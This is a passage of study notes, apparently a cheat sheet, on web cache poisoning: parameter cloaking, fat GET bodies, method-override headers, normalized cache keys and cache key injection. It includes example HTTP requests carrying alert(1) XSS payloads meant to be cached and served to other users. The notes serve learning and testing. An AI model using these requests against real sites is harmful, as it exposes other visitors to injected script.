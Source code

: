 ```
```
Many caches will only interpret this as two parameters, delimited by the ampersand: 
```

    keyed_param=abc
    excluded_param=123;keyed_param=bad-stuff-here

```
But on back-end Ruby will interpret this as three different params, but two of them are duplicated. In such case Ruby accepts only the final parameter  
The end result is that the cache key contains an innocent, expected parameter value, allowing the cached response to be served as normal to other users. On the back-end, however, the same parameter has a completely different value, which is our injected payload. It is this second value that will be passed into the gadget and reflected in the poisoned response.  
For example we can control via additional parameters some name function in som js file and replace it with xss:
```
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```
## Exploiting fat GET support
Sometimes we could be able to poison cache with POST request body  
But in some rare situations, server could allow GET requests with body that won't be cached:
```
GET /?param=innocent HTTP/1.1
…
param=bad-stuff-here
```
In this case, the cache key would be based on the request line, but the server-side value of the parameter would be taken from the body.  
```
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
....

callback=alert(1)
```
If site doesn't accept such fat requests, we can try to override it with "pseudo-post" request
```
X-HTTP-Method-Override: POST
```
## Normalized cache keys
Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key: 
```
GET /example?param="><test>
GET /example?param=%22%3e%3ctest%3e
```
This helps to bypass some restrictions for reflected xss, for example. URL-encoded xss in parameters is unexploitable, but cache poisoning could help to bypass this, because cahce would be served unencoded.  
## Cache key injection
If vulnerability is present in keyed header, we can try to exploit cache key injection with double underscores:
```
GET /path?param=123 HTTP/1.1
Origin: '-alert(1)-'__

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__

<script>…'-alert(1)-'…</script>
```
Then we can induce victim to follow url
```
```